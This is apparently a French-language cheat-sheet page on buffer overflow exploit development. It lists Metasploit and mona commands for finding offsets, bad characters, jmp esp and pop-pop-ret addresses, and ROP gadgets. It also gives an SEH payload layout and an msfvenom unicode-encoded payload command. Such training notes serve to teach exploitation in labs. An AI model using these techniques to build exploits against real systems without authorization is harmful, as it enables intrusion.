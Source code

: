 ```yaml
---
title: Buffer Overflows
permalink: /Buffer_Overflows/
---
```


# Buffer Overflows

## Généralités

Cette section contient des commandes générales utiles pour l'exploitation de buffer overflows.

Générer des patterns avec metasploit:

``` bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb 2700 # Génération du pattern
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb 39694438 # Trouver l'offset
```

Trouver un jmp avec mona dans un module spécifique:

``` bash
!mona jmp -!mona jmp -r esp -m user32.dll
```

### Bad characters

Pour rechercher des bad chars on peut générer un payload avec mona:

``` bash
!mona bytearray # Tous les caractères
!mona bytearray -cpb "\x00\x0a" # Tous sauf \x00 \x0a
```

On peut comparer un fichier avec le contenu en mémoire:

``` bash
!mona compare -f C:/mona/minishare/bytearray.bin -a 01010101 
```

Cette chaîne peut être utilisée pour chercher les "**bad chars**":

``` text
buf="\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
buf+="\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
buf+="\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
buf+="\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
buf+="\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
buf+="\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
buf+="\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
buf+="\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
buf+="\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
buf+="\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
buf+="\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
buf+="\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
buf+="\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
buf+="\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
buf+="\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
buf+="\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

Il faut également s'assurer que les bad chars n'empêchent pas le crash pour pouvoir facilement trouver à quel char on s'est arrêté.

### Générer shellcodes

On peut utiliser metasploit pour trouver les équivalents opcode de certaines instructions:

``` text
# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > jmp esp
00000000  FFE4              jmp esp
```

## SEH Overflows

Les commandes mona suivantes permettent l'exploitation :
``` bash
!mona exchain # Affiche les enregistrements SEH (on peut aussi faire ALT+S)
!mona safeseh # Affiche les modules sans SafeSEH
!mona seh -m strmdll.dll # Chercher un pop,pop,ret dans le module indiqué
```

Il faut trouver un payload de la forme suivante:
``` bash
[JUNK][Short JMP          ][Address to POP, POP, RET][NOPs][Shellcode]
[????][Address to next SEH][Address of SEH Handler  ][???????????????]
```

Si on utilise msfvenom il faut préciser EXITFUNC=SEH.

## Unicode

msfvenom dispose d'un encoder pour générer des payloads compatibles avec de l'unicode:

``` bash
msfvenom -p windows/exec -e x86/unicode_mixed CMD=calc.exe BufferRegister=eax --format=py
```

Il est cependant nécessaire d'initialiser la valeur de registre eax pour qu'elle pointe vers le début du buffer. FuzzySecurity montre une démarche (voir détail complet dans le [tutorial](http://www.fuzzysecurity.com/tutorials/expDev/5.html)). 

## Return Oriented Programming (ROP)

Les commandes mona suivantes sont utiles pour les exploits ROP:

``` bash
!mona modules # Liste les informations sur les différents modules
!mona ropfunc -m MSRMfilter03.dll -cpb '\x00\x09\x0a' # Liste les fonctions utiles pour ROP dans MSRMfilter03.dll (VirtualAlloc, etc.)
!mona rop -m MSRMfilter03.dll -cpb '\x00\x09\x0a' # Liste les gadgets dans MSRMfilter03.dll. Cette commande génère plusieurs fichiers. Le fichier rop_chains.txt contient la structure (valeurs à mettre dans les registres, etc.) pour faire un exploit valide.
```


## Ressources

### Liens externes

- [64 Bits Linux Stack Based Buffer Overflow](https://www.exploit-db.com/docs/33698.pdf)
- [Windows Exploit Development - Part 1](http://www.shogunlab.com/blog/2017/08/19/zdzg-windows-exploit-1.html)
- [Tutorials Fuzzy Security](http://www.fuzzysecurity.com/tutorials.html)
